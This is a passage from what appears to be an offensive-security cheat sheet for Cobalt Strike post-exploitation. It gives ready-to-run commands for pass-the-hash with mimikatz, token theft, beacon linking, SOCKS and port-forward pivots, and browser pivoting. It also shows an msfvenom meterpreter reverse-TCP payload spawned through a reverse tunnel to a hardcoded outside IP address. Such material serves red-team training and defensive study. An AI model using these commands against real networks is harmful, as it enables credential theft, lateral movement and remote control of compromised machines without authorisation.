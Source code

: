 ```powershell
```

Opsec safe Pass-the-Hash:
1. `mimikatz sekurlsa::pth /user:xxx /domain:xxx /ntlm:xxxx /run:"powershell -w hidden"`
2. `steal_token PID`

### Assume Control of Artifact

* Use `link` to connect to SMB Beacon
* Use `connect` to connect to TCP Beacon


## VPN & Pivots

:warning: Covert VPN doesn't work with W10, and requires Administrator access to deploy.

> Use socks 8080 to setup a SOCKS4a proxy server on port 8080 (or any other port you choose). This will setup a SOCKS proxy server to tunnel traffic through Beacon. Beacon's sleep time adds latency to any traffic you tunnel through it. Use sleep 0 to make Beacon check-in several times a second.

```powershell
# Start a SOCKS server on the given port on your teamserver, tunneling traffic through the specified Beacon. Set the teamserver/port configuration in /etc/proxychains.conf for easy usage.
beacon > socks [PORT]

# Proxy browser traffic through a specified Internet Explorer process.
beacon > browserpivot [pid] [x86|x64]

# Bind to the specified port on the Beacon host, and forward any incoming connections to the forwarded host and port.
beacon > rportfwd [bind port] [forward host] [forward port]

# spunnel : Spawn an agent and create a reverse port forward tunnel to its controller.    ~=  rportfwd + shspawn.
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw -o /tmp/msf.bin
beacon> spunnel x64 184.105.181.155 4444 C:\Payloads\msf.bin

# spunnel_local: Spawn an agent and create a reverse port forward, tunnelled through your Cobalt Strike client, to its controller
# then you can handle the connect back on your MSF multi handler
beacon> spunnel_local x64 127.0.0.1 4444 C:\Payloads\msf.bin
```

## Kits

* [Cobalt Strike Community Kit](https://cobalt-strike.github.io/community_kit/) - Community Kit is a central repository of extensions written by the user community to extend the capabilities of Cobalt Strike

### Elevate Kit

UAC Token Duplication : Fixed in Windows 10 Red Stone 5 (October 2018)
